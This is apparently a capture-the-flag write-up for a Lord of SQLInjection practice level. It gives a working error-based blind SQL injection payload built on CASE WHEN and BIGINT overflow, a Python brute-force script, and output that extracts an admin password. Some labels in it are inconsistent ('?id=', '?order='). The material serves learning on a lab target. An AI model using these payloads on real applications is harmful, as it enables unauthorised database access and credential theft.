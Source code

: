 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 28
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6915fb41-8baa-45e1-98b3-c45d05e0ec03)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters the following: `_`, `.`, `(`, `)`, `union`.

Therefore we cannot use the  `length()` function and `if()` statements.
In order to get around this, we will have to use `CASE` statements.

## Error-based Blind SQL Injection

### ERROR 1690 (22003): BIGINT value is out of range[​](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/iron_golem#error-1690-22003-bigint-value-is-out-of-range "Direct link to ERROR 1690 (22003): BIGINT value is out of range")

In SQL the maximum value for a column is `9223372036854775807`. If the value exceeds the limit, it throws the `ERROR 1690 (22003): BIGINT value is out of range` error message.

This is the error we will be exploiting.
### Wildcard

We also need to use the (`%`) wildcard character. It represents zero or more characters after teh specified character.

```
1% = 10, 100, 1200, etc
```

If we provide the following URI parameter:

```
?id=' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -' AND pw='{$_GET[pw]}'
```

If the `[password_substring]` that we provide for `id='admin'` matches part of the `pw`, the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation will be performed. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

### Script

```python title="frankenstein_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'fpl88d0ujgtatq5qt4a6o5n4om'}
url = 'https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php'

password = ''
end = False
searchspace = string.digits + string.ascii_letters

for index in range(1, 100):
  if (end == True):
    break
  end = True

  for char in searchspace:
    payload = f"' || CASE WHEN id='admin' AND pw LIKE '{password}{char}%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if ("login_chk" in response.text):
      continue
    elif ("error" in response.text):
      print()
      print(f"[+] Payload: ?order={payload}")
      print(f"[+] Payload (URL encoded): ?order={encoded_payload}")
      print(f'[+] Character at index {index}: {char}')
      password = password + char
      end = False
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
$ python .\frankenstein_script.py

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 1: 0

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0d%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270d%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 2: d

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 3: c

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-
[+] Character at index 4: 4

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4e%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4e%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-     
[+] Character at index 5: e

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4ef%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4ef%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-    
[+] Character at index 6: f

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4efb%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4efb%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-   
[+] Character at index 7: b

[+] Payload: ?order=' || CASE WHEN id='admin' AND pw LIKE '0dc4efbb%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
[+] Payload (URL encoded): ?order=%27+%7C%7C+CASE+WHEN+id%3D%27admin%27+AND+pw+LIKE+%270dc4efbb%25%27+THEN+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF+ELSE+0+END+--+-  
[+] Character at index 8: b

[!] Extracted password: 0dc4efbb
[!] Final payload: ?pw=0dc4efbb
```

If we provide the following URI parameter:

```
?pw=0dc4efbb
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='0dc4efbb'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/bef1ff18-ace7-4eed-ab14-e9584686da12)
